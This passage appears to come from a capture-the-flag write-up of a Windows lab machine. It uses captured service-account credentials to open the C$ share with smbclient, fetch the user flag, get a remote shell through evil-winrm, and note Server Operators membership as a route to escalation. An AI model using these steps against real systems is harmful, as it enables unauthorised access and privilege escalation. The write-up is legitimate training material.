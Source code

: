 Let us use smbclient to access the C$ share that we have found using smbmap

```
┌──(kali㉿kali)-[~]
└─$ smbclient -U 'svc-printer%1edFg43012!!' //10.10.11.108/C$ 2>&1 
Try "help" to get a list of possible commands.
smb: \> 
```

### Obtaining user flag
Firstly, we will have to navigate to /Users/svc-printer/Desktop to find the user.txt file and download the user.txt file

```
┌──(kali㉿kali)-[~/Desktop/return]
└─$ smbclient -U 'svc-printer%1edFg43012!!' //10.10.11.108/C$ 2>&1 
Try "help" to get a list of possible commands.
smb: \> cd Users/svc-printer/Desktop
smb: \Users\svc-printer\Desktop\> dir
  .                                  DR        0  Wed May 26 05:05:55 2021
  ..                                 DR        0  Wed May 26 05:05:55 2021
  user.txt                           AR       34  Sat Apr 30 12:33:11 2022
                5056511 blocks of size 4096. 1955036 blocks available
smb: \Users\svc-printer\Desktop\> get user.txt
getting file \Users\svc-printer\Desktop\user.txt of size 34 as user.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \Users\svc-printer\Desktop\> 
```
Afterwards, all we have to do is to view the downloaded user.txt file to obtain the user flag.

```
┌──(kali㉿kali)-[~/Desktop/return]
└─$ cat user.txt 
<Redacted user flag>
```
### Privilege Escalation to SYSTEM
Next, we realize that we can authenticate to the server via evil-winrm using the obtain credentials as well. 

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'            
Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```

Using WinPeas, we found out that the svc-printer user is a member of the Server Operators group. Since svc-printer is part of the Server Operatores group, the user will be able to create and delete network shared resources, start and stop services, back up and restore files, format the hard disk drive of the computer.
